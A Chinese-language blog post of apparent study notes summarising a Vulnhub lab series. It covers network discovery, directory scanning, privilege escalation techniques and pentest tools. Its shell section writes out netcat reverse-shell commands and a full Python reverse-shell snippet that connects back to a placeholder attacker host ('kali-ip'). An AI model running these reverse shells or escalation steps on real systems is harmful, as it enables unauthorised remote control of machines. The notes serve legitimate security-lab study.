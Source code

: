 ```yaml
---
title: Conclusion1_Chapter1~5
categories:
- Network_Security
- Vulnhub
- Conclusion
tags:
- Network_Security
- Vulnhub
date: 2024-04-05 13:32:28
---
```


# 总结（Chapter 1-5）

## 1. 外围探测与扫描

### 1.1 主机发现

1. arp-scan，基于 arp

2. arping
    虽然它是 Linux 发行版常见的工具，但注意其并不支持网段的扫描，需要结合 Shell 脚本语言使用，例子：

    ```bash
    for i in $(seq 3 254); do sudo arping -c 2 192.168.0.$i; done
    # 扫描 192.168.0.3-254，-c 表示 count
    ```

3. netdiscover，也是基于 arp 的工具，实际使用时，掩码需要 -8：
    `sudo netdiscover -r 网段/实际掩码 - 8`

4. nmap

### 1.2 目录扫描

1. dirsearch 轻量级。
2. feroxbuster 结合 seclists 来进行大规模的目录扫描。

## 2. Shell 的获取

### 2.1 通过 NC

1. 查看是否有 NC：`which nc`。
2. 高版本 NC 反弹 Shell：
    `nc kali-ip kali-端口 -e /bin/sh`
3. 低版本 NC 串联：
    `nc kali-ip kali-端口-1 | /bin/bash | /bin/nc kali-ip kali-端口-2 # nc 串联，使用 | 将结果向后传递。`

### 2.2 通过其他途径

1. python：
    ```python
    import socket,subprocess,os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(('kali-ip', kali-端口))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(['/bin/sh','-i'])
    ```

    如果是命令，就需要 `python -c "上述代码"`。注意单双引号。

2. 修改源代码，上线 WebShell 工具。

### 2.3 交互性的增加

1. 初步增加：
    `python -c "import pty; pty.spawn('/bin/bash')"`

2. 完全的即时交互：

    > https://www.endlessshw.top/2024/01/23/Network_Security/Vulnhub_Journey/Chapter4_Medium_AdmX_New/Chapter4_Medium_AdmX_New/#1-2-%E6%8B%BF%E5%88%B0-Shell-%E4%B8%8E-Shell-%E4%BF%9D%E6%8C%81

## 3. 提权

### 3.1 内核提权

1. 查看内核相关信息：
    ```bash
    uname -a # 查看内核
    lsb_release -a # 查看 OS 版本
    ```

2. `search Linux 版本` 寻找 EXP。

3. CVE-2021-3493

### 3.2 suid 提权

1. 先找权限是 S 的文件。
2. 查看其文件，分析源代码，尝试构造出提权命令。

### 3.3 sudo 提权

1. 先从常见的工具入手，是否可以 sudo 提权

2. `sudo -l` 查看当前用户可以通过 `sudo` 使用的命令和工具，通过具体的工具和命令进行提权：

    > https://ihsansencan.github.io/privilege-escalation/linux/binaries/
    >
    > https://haiclover.github.io/gtfobins/node/
    >
    > 学会使用谷歌，好多东西中文互联网未必搜得到。

### 3.4 其他较为通用的提权方式

1. lxd 提权
2. MySQL UDF 提权

## 4. 一些杂项和思想

1. Burpsuite 可以一次性修改发送包和接受包的某些内容（通过正则匹配）。
2. cyberchef 工具用于加解密。
3. 密码交叉复用的思想！
4. Venom 内网穿透工具。
5. PWN 要学，GDB 调试工具的使用，Python 的 `struct` 包。
6. exp 要学会查看，视具体报错情况还得修改。
7. docker 容器的判断。